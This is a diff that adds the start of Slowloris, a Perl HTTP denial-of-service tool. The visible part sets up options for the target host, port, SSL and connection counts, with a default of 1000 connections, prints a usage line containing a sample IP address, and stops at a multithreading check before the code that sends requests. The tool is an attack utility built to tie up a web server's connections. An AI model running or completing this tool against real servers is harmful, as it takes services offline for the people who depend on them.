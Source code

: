 +#!/usr/bin/perl -w
+use strict;
+use IO::Socket::INET;
+use IO::Socket::SSL;
+use Getopt::Long;
+use Config;
+
+$SIG{'PIPE'} = 'IGNORE';    #Ignore broken pipe errors
+
+print <<EOTEXT;
+Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client by Laera Loris
+EOTEXT
+
+my ( $host, $port, $sendhost, $shost, $test, $version, $timeout, $connections );
+my ( $cache, $httpready, $method, $ssl, $rand, $tcpto );
+my $result = GetOptions(
+    'shost=s'   => \$shost,
+    'dns=s'     => \$host,
+    'httpready' => \$httpready,
+    'num=i'     => \$connections,
+    'cache'     => \$cache,
+    'port=i'    => \$port,
+    'https'     => \$ssl,
+    'tcpto=i'   => \$tcpto,
+    'test'      => \$test,
+    'timeout=i' => \$timeout,
+    'version'   => \$version,
+);
+
+if ($version) {
+    print "Version 0.7\n";
+    exit;
+}
+
+unless ($host) {
+    print "Usage:\n\n\tperl $0 -dns [173.199.126.95] -options\n";
+    print "\n\tType 'perldoc $0' for help with options.\n\n";
+    exit;
+}
+
+unless ($port) {
+    $port = 80;
+    print "Defaulting to port 80.\n";
+}
+
+unless ($tcpto) {
+    $tcpto = 5;
+    print "Defaulting to a 5 second tcp connection timeout.\n";
+}
+
+unless ($test) {
+    unless ($timeout) {
+        $timeout = 100;
+        print "Defaulting to a 100 second re-try timeout.\n";
+    }
+    unless ($connections) {
+        $connections = 1000;
+        print "Defaulting to 1000 connections.\n";
+    }
+}
+
+my $usemultithreading = 0;
+if ( $Config{usethreads} ) {
+    print "Multithreading enabled.\n";